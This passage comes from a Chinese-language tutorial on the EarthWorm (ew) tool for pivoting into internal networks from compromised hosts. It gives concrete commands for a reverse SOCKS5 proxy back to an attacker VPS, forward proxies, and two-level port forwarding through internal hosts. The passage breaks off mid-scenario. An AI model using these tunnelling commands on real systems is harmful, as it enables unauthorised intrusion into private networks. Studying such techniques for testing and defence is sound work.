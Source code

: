 在目标主机上执行以下命令：

    
    
    ew -s rssocks -d vps_ip -e 4444
    
    
    -d 设置反弹主机 IP
    
    
    > .\ew_for_Win.exe -s rssocks -d 172.16.214.52 -e 4444

这条命令表示在本地开启 socks 5 服务，并反弹到 vps 的 4444 端口，如果代理建立成功，在 VPS 端就会看到 `rssocks
cmd_socket OK!` 的提示。

最后，代理 vps 的 1080 端口就可以访问到目标主机的内网了。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204340.png)

#### c、二级网络环境（一）

有这样的一个网络环境，目标主机A有两个网卡，一个内网地址一个公网地址，但这个主机只能访问内网主机B不能访问其他内网资源，而内网主机B不能访问外网但是能访问内网资源。

在拿到这两台主机权限后，就可以使用 ew 进行二级跳板访问到内网资源。

    
    
    内网主机A（有公网IP） --》内网主机B --》内网资源

在内网主机B上，开启正向连接代理

    
    
    ew -s ssocksd -l 4444
    
    
    > .\ew_for_Win.exe -s ssocksd -l 4444

在内网主机A上

    
    
    ew -s lcx_tran -l 1080 -f hostB_ip -g 4444
    
    
    > ./ew_for_linux64 -s lcx_tran -l 1080 -f 192.168.7.110 -g 4444

这条命令表示将 1080 端口收到的代理请求转发到内网主机 B 192.168.7.110 的 4444 端口，此时就可以通过访问内网主机 A 的外网 IP
的 1080 端口访问到内网主机 B 上架设的 socks5 代理了。

#### d、二级网络环境（二）

在上面的环境中，内网主机 A 有公网 IP，如果没有公网 IP 的情况下，又该怎么办呢？这时候就需要结合反向连接了，因此需要一台公网的 VPS 主机。

    
    
    VPS --》内网主机A --》内网主机B --》内网资源

在公网 VPS 上

    
    
    ew -s lcx_listen -l 1080 -e 4444
    
    
    > ./ew_for_linux64 -s lcx_listen -l 1080 -e 4444rcsocks 0.0.0.0:1080 <--[10000 usec]--> 0.0.0.0:4444init cmd_server_for_rc herestart listen port here
